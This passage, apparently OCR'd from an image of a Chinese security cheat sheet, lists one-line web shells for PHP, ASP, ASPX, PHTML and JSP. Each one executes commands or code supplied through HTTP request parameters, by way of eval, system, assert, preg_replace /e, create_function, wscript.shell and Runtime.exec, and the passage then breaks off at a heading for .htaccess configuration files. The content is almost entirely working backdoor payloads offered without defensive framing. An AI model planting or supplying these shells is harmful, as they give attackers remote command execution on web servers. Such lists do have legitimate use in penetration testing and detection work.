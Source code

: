         ```php
        <?php @eval($_POST[x]);?>
        <?php system($_GET['cmd']);?>
        <?php assert($_REQUEST[cmd]);?>
        
        <?php @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd");?>

        <?php
        $func =create_function('',$_REQUEST['cmd']);
        $func();
        ?>

        ```

    * asp

        ```s
        
        <%eval request("777")%>
        
        <%execute request("777")%>
        
        <%execute(request("777"))%>

        <%executeGlobal request("777")%>

        <%eval(Request(chr(35)))%> #ASCII码值

        <%response.write server.createobject("wscript.shell").exec("cmd.exe /c "&request("cmd")).stdout.readall%>

        ```

    * aspx

        `<%@ Paage Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>`

    * phtml

        `<script Language="php">eval($_REQUEST[shell])</script>`

    * jsp

        >执行系统命令且有回显
        ```jsp
        <% if("023".equals(request.getParameter("pwd"))){ java.io.InputStream in = 
        Runtime.getRuntime().exec(request.getParameter("i")).getInputStream(); int a = -1; byte[] b = new byte[2048]; 
        out.print("<pre>");
        while((a=in.read(b))!=-1){
        out.println(new String(b,0,a));
        }out.print("</pre>");
        }%>

        ```

## 配置文件

* .htaccess
